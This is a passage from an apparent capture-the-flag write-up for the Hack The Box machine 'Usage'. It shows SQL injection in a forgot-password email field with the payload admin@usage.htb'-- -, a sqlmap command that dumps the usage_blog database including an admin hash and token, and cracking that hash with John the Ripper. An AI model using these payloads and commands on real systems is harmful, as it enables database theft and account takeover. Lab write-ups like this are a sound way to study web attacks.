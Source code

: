Now lets register a user with a random email and a password.

![Image](Pasted%20image%2020240812143705.png)

I also checked the admin site As I was not able to access that site due to the subdomain name so I set the host file as `admin.usage.htb` and I got another login page like this.

![Image](Pasted%20image%2020240812143723.png)

After login with that registred creds I got this note usefull page.

![Image](Pasted%20image%2020240812143630.png)

After that I enumerated further and encontered this forgot password page and I tried to enter the registed user email ID and it worked rather than any random not registered ID.

![Image](Pasted%20image%2020240812142905.png)

Now while checking for SQLi in this field I used single quote at the end to the email address and send the request and turns out it gives me 500 server server error .
![Image](Pasted%20image%2020240812142933.png)

For Another check I also included the comment dubble dash (--) along with single dash (-) so that if it is SQLi it will consider this as comment and move on ,That means it should not give me the error now If I forword this request like this : `admin@usage.htb'-- -`

![Image](Pasted%20image%2020240812143439.png)

As as expected , I did not get an error, So I will be using <mark style="background: #FFB8EBA6;">sqlmap</mark> to deal with this SQLi vulnerability.


```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Usage]
└─$ sqlmap -r forget.req -p email --technique=BUT --level=5 --risk=3 -D usage_blog --dump --thread=10 -batch 
```
{: .nolineno}

![Image](Pasted%20image%2020240812153233.png)

I found usage_blog Database and I got this data from this admin_users Table.

![Image](Pasted%20image%2020240812212320.png)

| id  | name          | avatar  | password                                                       | username | created_at          | updated_at          | remember_token                                                 |
| --- | ------------- | ------- | -------------------------------------------------------------- | -------- | ------------------- | ------------------- | -------------------------------------------------------------- |
| 1   | Administrator | <blank> | `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2` | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | `kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT` |

I cracked the password with John The Ripper Tool.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
{: .nolineno}
![Image](Pasted%20image%2020240812212756.png)
